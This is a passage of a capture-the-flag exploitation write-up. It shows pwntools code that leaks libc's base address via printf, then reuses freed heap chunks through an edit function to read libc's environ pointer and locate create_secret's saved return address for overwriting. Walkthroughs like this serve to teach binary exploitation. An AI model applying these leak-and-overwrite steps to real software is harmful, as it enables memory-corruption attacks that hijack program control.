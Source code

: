 ![libc-blukat-me.png](images/libc-blukat-me.png)

So the libc we want is `libc6_2.27-3ubuntu1_amd64`. Let's take that and get the libc base address

```python
libc.address = printf_addr - libc.sym['printf']
log.info("Libc base: " + hex(libc.address))
```

### Stage 4: Leak stack address

Now, we will want to control the saved rip of some function, and the best place is saved rip of `create_secret` because we can write our payload to that saved rip and when it return, it will execute our payload immediately.

We will not delete or decode anymore because it will cause segfault, instead we will use `edit_secret` to free just the `secret_data` and `secret_name`, that re-malloc with the same chunk to write the libc address of environ to the `secret_data` and we can leak it easily:

```python
payload = flat(
	libc.sym['environ']
	)
edit(1, b'D'*8, 0x48, payload, 1)
leak_stack = u64(show(2)[:8])
log.info("Stack leak: " + hex(leak_stack))
saved_rip = leak_stack - 0x1d0
log.info("Saved rip of create_secret(): " + hex(saved_rip))
```
